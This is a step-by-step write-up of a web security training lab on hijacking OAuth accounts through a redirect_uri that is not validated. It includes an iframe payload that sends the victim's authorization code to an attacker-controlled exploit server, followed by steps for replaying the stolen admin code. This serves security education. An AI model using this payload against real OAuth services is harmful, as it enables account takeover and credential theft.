

# Lab: OAuth account hijacking via redirect_uri

> Lab Objective: steal an authorization code associated with the admin user, then use it to access their account and delete the user `carlos`.

- Login using provided credentials `wiener:peter`, then inspect the login process.

- The Login Process:

  - You're redirected to `/social-login` endpoint.
    
  - At `/social-login` endpoint, you're redirected to login with social media.
    
  - Authorization request is made.
    
  - You're prompted to enter your credentials.
    
  - You're prompted for your consent.
    
  - If agreed, you'll be redirected to to `redirect-uri` stated in the authorization request.
    
  - Finally, you're redirected to `/`.
    

- Logout and login again, but intercept the authorization request, then insert BURP_COLLABORATOR_URL + `?key=accessed` into the `redirect_uri`.
  

- Forward this request, then view Burp Collaborator tab, you'll notice that HTTP requests are made, one of them contain:

  - The `key=accessed`.
  - And the issued code.

  

- Therefore, use this payload to hijack the code:

```html
<iframe
  src="https://oauth-0a51006f03180af380b101900216005d.oauth-server.net/auth?client_id=czfxop1x3t6xjkvz0klvo&redirect_uri=https://exploit-0a06002c036e0acb80d6029c01de0038.exploit-server.net/?key=accessed12&response_type=code&scope=openid%20profile%20email"
></iframe>
```

- Then deliver it to victim.

- Wait a few seconds, then view the logs, and you'll find the code of the admin.

- Logout then login again but intercept the call back request, and replace your code with the hijacked code.
  

- Forward all upcoming requests, then you'll notice that you've access to the admin panel.
  
  

- Access the admin panel.
  

- Then delete the user carlos, and the lab is solved.
  

---
